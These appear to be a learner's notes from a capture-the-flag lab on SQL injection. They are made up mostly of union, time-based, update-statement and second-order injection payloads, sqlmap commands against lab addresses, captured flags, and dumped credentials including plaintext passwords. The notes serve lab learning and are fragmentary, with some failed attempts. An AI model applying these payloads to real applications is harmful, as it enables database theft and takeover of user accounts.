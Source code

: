 - search bar
- update statement
-  change password
-  book title "union"
-  


### search bar

search for true item

search for wildcards

construct query

```sql
select ? from ? where ? like '%hammer%';

get db type

select ? from ? where ? like '%';-- %';

select ? from ? where ? like '%hammer' AND 1 = sleep(2);-- %';

select ?,?,? from ? where ? like '%hammer' union (select 1,2,3 from dual);-- %';

select ?,?,? from ? where ? like '%hammer' union (select TABLE_NAME, TABLE_SCHEMA, 3 FROM infromation_schema.tables);--

select ?,?,? from ? where ? like '%hammer' union (select column_name,2,3 from information_schema.columns where table_name = 'users');--

select ?,?,? from ? where ? like '%hammer' union (select uLogin, uHash, uType from users);--

```


### Update statement

```sql
UPDATE <table_name> SET nickName='name', email='email' WHERE <condition>
```

# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='


```sql
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
```



We can then continue by extract all the column names from the usertable:

```sql
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
```



The subquery is using the group_concat() function to dump all the information simultaneously, and the || operator is "concatenate" - it joins together the strings of its operands (sqlite.org).
```
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='
```


We can then update the password for the Admin user with the following code:
```
', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -


sqlmap -u http://10.10.230.205:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump
```


Vulnerable notes

create a user with the query
	
```	

' union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%''

'  union select 1,group_concat(password) from users'

sqlmap --tamper tamper/so-tamper.py --url http://10.10.1.134:5000/challenge4/signup --data "username=admin&password=asd" 
--second-url http://10.10.1.134:5000/challenge4/notes -p username --dbms=sqlite --technique=U --no-cast -T users --dump
```

THM{4644c7e157fd5498e7e4026c89650814}


### Change Password

create new user admin' -- -:a

login, then change password :b

logout and log back in with admin:b

done,

THM{cd5c4f197d708fda06979f13d8081013}


### book title


SELECT * from books WHERE id = (SELECT id FROM books WHERE title like 'harr%')
```sql

') union select 1,2,3,4 from sqlite_master-- -


') union select 1,sqlite_version,3,4 from sqlite_master-- -

3.22.0


SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

') SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -   didn't work


') union select 1,tbl_name,3,4 from sqlite_master-- -


Title: books
3
Author: 4
Title: notes
3
Author: 4
Title: users
3
Author: 4


') UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -  DIDNT WORK


') union select 1,sql,3,4 from users-- -

sqlite3_column_name()

') union select 1,sqlite3_column_name(),3,4 from users-- -


tbl_name column


', title=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users')-- - 




') union select 1,sql,3,4 from sqlite_master where name ='users'-- -


Title: CREATE TABLE users ( id integer primary key, username text unique not null, password text not null )
3
Author: 4


') union select 1,username,password,4 from users-- -


Title: admin

THM{27f8f7ce3c05ca8d6553bc5948a89210}

Author: 4
Title: amanda

Summer2019!

Author: 4
Title: dev

asd

Author: 4
Title: emil

viking123

Author: 4
Title: maja

345m3io4hj3

Author: 4
Title: student

password

Author: 4
```



### Book 2


Query 1:
SELECT id FROM books WHERE title like '' union select sqlite_version()-- -%'
Query 2:
SELECT * FROM books WHERE id = '3.22.0'


'union select tbl_name from sqlite_master-- -

shows the table books

'union select tbl_name,tbl_name from sqlite_master-- -	 nothing


' union select sql from sqlite_master where name ='books'-- -

Query 1:
SELECT id FROM books WHERE title like '' union select sql from sqlite_master where name ='books'-- -%'
Query 2:
SELECT * FROM books WHERE id = 'CREATE TABLE books (
    id integer primary key,
    title text not null,
    description text not null,
    author text not null
)'

' union select 1,2,3,4 from books-- - nothing

' union select 1,tbl_name from sqlite_master-- -

' union select '-1''union select 1,tbl_name,3,4 from sqlite_master-- -

```
Title: books

3

Author: 4
Title: notes

3

Author: 4
Title: users

3

Author: 4
```


' union select '-1''

' union select '-1'' union select 1,sql,3,4 from sqlite_master where name = 'users'-- -

') union select 1,sql,3,4 from sqlite_master where name ='users'-- -



' union select '-1'' union select 1,username,password,4 from users-- -
